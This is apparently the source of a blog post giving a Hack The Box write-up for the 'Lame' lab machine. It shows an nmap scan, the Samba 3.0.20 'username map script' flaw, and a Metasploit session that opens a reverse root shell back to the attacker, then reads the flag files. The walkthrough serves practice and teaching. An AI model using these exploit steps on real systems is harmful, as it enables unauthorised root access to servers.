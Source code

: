 ```yaml
---
layout: post
title: LAME(HTB)
categories:
  - Writeup
---
```

<br>OS Linux
<br>IP: 10.10.10.3
<br>Machine Author: ch4p

**Nmap** :-
<font size="1">
<div style="height:400px;width:800px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A -O 10.10.10.3
<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-16 18:17 EST
<br>Nmap scan report for 10.10.10.3
<br>Host is up (0.16s latency).
<br>Not shown: 996 filtered ports
<br>PORT STATE SERVICE VERSION
<br><font color="BB69EC">21/tcp</font> open <font color="53E100">ftp vsftpd 2.3.4</font>
<br>|_ftp-anon: <font color="53E100">Anonymous FTP login allowed</font> (FTP code 230)
<br><font color="BB69EC">22/tcp</font> <font color="53E100">open ssh OpenSSH 4.7p1</font> Debian 8ubuntu1 (protocol 2.0)
<br>| ssh-hostkey:
<br>| 1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
<br>|_ 2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
<br><font color="BB69EC">139/tcp</font> open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
<br><font color="BB69EC">445/tcp</font> open netbios-ssn <font color="53E100">Samba smbd 3.0.20-Debian</font> (workgroup: WORKGROUP)
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Aggressive OS guesses: OpenWrt White Russian 0.9 (Linux 2.4.30) (92%), Arris TG862G/CT cable modem (92%), Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Linux 2.4.27 (92%), Linux 2.6.22 (92%), Linux 2.6.8 - 2.6.30 (92%), Dell iDRAC 6 remote access controller (Linux 2.6) (92%), Supermicro IPMI BMC (Linux 2.6.24) (92%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
<br>Host script results:
<br>| smb-os-discovery:
<br>| OS: <font color="53E100">Unix (Samba 3.0.20-Debian)</font>
<br>| NetBIOS computer name:
<br>| Workgroup: WORKGROUP\x00
<br>|_ System time: 2017-12-13T13:56:42-05:00
<br>TRACEROUTE (using port 22/tcp)
<br>HOP RTT ADDRESS
<br>1 164.82 ms 10.10.*.*
<br>2 164.95 ms 10.10.10.3
<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 84.01 seconds</p>
</div>
</font>


<br>**Vulnerabilty**:- _Samba 3.0.20_
<br>**Exploit**:- [_Samba "username map script" Command Execution_](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script)
 
**POC**:-
<font size="1">
<div style="height:400px;width:800px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>msf > use exploit/multi/samba/usermap_script
<br>msf exploit(<font color="red">usermap_script</font>) > set RHOST 10.10.10.3
<br>RHOST => 10.10.10.3
<br>msf exploit(<font color="red">usermap_script</font>) > exploit

<br><font color="RoyalBlue">[*]</font> Started reverse TCP double handler on 10.10.*.*:4444</font> 
<br><font color="RoyalBlue">[*]</font> Accepted the first client connection...
<br><font color="RoyalBlue">[*]</font> Accepted the second client connection...
<br><font color="RoyalBlue">[*]</font> Command: echo UTiuwW6uLQ5WcJXz;
<br><font color="RoyalBlue">[*]</font> Writing to socket A
<br><font color="RoyalBlue">[*]</font> Writing to socket B
<br><font color="RoyalBlue">[*]</font> Reading from sockets...
<br><font color="RoyalBlue">[*]</font> Reading from socket B
<br><font color="RoyalBlue">[*]</font> B: "UTiuwW6uLQ5WcJXz\r\n"
<br><font color="RoyalBlue">[*]</font> Matching...
<br><font color="RoyalBlue">[*]</font> A is input...
<br><font color="RoyalBlue">[*]</font> Command shell session 1 opened <font color="53E100">(10.10.*.*:4444 -> 10.10.10.3:57285)</font> at 2017-12-16 22:55:59 -0500

<br>id
<br>uid=<font color="53E100">0(root)</font> gid=<font color="53E100">0(root)</font></p>
</div>
</font>

Now we have a non-interactive root shell, anyway It's optional if you really want a tty shell or not for this situation atleast and after that we are good to go and read the user and root flags.

<font size="1">
<div style="height:400px;width:800px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="53E100">python -c 'import pty;pty.spawn("/bin/bash")'</font>
<br>root@lame:/# cd /home
<br>cd /home
<br>root@lame:/home# ls
<br>ls
<br><font color="RoyalBlue">ftp  makis  service  user</font>
<br>root@lame:/home# cd makis
<br>cd makis
<br>root@lame:/home/makis# ls
<br>ls
<br>user.txt
<br>root@lame:/home/makis# cat user.txt
<br>root@lame:/home/makis# cd /root
<br>cd /root
<br>root@lame:/root# ls
<br>ls
<br><font color="RoyalBlue">Desktop</font>  <font color="53E100">reset_logs.sh</font>  root.txt  vnc.log
<br>root@lame:/root# cat root.txt</p>
</div>
</font>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>
